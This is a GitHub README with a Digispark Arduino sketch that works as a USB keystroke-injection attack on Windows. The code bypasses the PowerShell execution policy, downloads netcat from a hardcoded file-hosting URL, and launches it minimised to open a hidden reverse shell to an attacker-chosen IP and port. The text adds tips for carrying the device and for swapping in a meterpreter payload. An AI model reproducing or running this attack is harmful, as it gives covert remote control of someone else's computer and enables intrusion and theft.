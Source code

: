 # Digispark Arduino Reverse Shell for windows 10

#### Although designed for windows 10 this script will work for windows vista onwards.

## A digispark arduino script to pop a reverse hidden shell to a specified ip address using netcat.

I recommend wrapping the pcb with electrical tape with small holes for the LED's to avoid shortages when transporting the device such as in the image below.

<img src="https://github.com/valkyrix/digispark-reverse-shell-windows-10/raw/master/digispark.jpg" align="middle" height="400" width="400" >

The listening machine will need to be running before the script is run.

This script can be easily modified to pop a reverse meterpreter shell instead of netcat.

link to download netcat has been hardcoded but can be replaced if wanted. To do this change the url to a direct download url of nc64.exe.

This script has been optimised to run on the digisparks limited memory requirements.

#### Warning: depending on the model of digispark the onboard led might be on pin 0 instead of 1.

LED Run-status: The LED will blink to state the code has started running. Once the code execution has completed the LED will stay illuminated and thus the device can be unplugged.

replace `IP` and `PORT` with your own values.
```c
#include "DigiKeyboard.h"
/* Init function */
//script created by valkyrix.github.io
void setup()
{//turn LED off while code is running, this means the device is safe to unplug as soon as the LED turns back on
  pinMode(1, OUTPUT); //LED on Model A
  digitalWrite(1, HIGH);
  DigiKeyboard.delay(500);
  digitalWrite(1, LOW);
  DigiKeyboard.sendKeyStroke(0);
  DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);
  DigiKeyboard.delay(100);
  DigiKeyboard.println("cmd");
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(100);
  DigiKeyboard.println("cd / & mkdir win & cd /win & echo (wget 'https://1fichier.com/?dtc7uqmikl' -OutFile a.exe) > b.ps1");
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(50);
  DigiKeyboard.println("powershell -ExecutionPolicy ByPass -File b.ps1");
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(50);
  DigiKeyboard.println("START /MIN a.exe IP PORT -e cmd.exe -d & exit");
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  digitalWrite(1, HIGH);
}

/* Unused endless loop */
void loop() {}

```

